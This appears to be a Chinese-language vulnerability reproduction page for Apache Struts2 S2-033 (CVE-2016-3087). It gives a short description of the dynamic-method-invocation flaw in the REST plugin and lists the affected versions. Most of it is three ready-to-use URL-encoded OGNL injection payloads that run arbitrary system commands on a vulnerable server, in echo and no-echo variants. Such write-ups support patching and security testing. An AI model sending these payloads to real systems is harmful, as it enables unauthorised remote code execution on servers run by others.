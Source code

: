 # （CVE-2016-3087）s2-033

## 一、漏洞简介

当开启动态方法调用，并且同时使用了Strut2 REST Plugin插件时，使用“!”操作符调用动态方法可能执行ognl表达式，导致代码执行。

## 二、漏洞影响

Struts 2.3.20 - Struts Struts 2.3.28（2.3.20.3和2.3.24.3除外）

## 三、复现过程

### POC

有回显版本

```bash
%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23process%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command[0]),%23ros%3D%28@org.apache.struts2.ServletActionContext@getResponse%28%29.getOutputStream%28%29%29%2C@org.apache.commons.io.IOUtils@copy%28%23process.getInputStream%28%29%2C%23ros%29%2C%23ros.flush%28%29,%23xx%3d123,%23xx.toString.json?&command=whoami

```

![图片.png](images/bd6f6ca0b445439595eb6c2394f05d4c.png)

光有回显

```bash
%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,%23xx%3d123,%23rs%3d@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()),%23wr%3d%23context[%23parameters.obj[0]].getWriter(),%23wr.print(%23rs),%23wr.close(),%23xx.toString.json?&obj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=2908&command=id

```

没回显

```bash
%23_memberAccess%3d@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS,@java.lang.Runtime@getRuntime%28%29.exec%28%23parameters.command[0]),%23xx%3d123,%23xx.toString.json?&command=touch%20/tmp/success

```

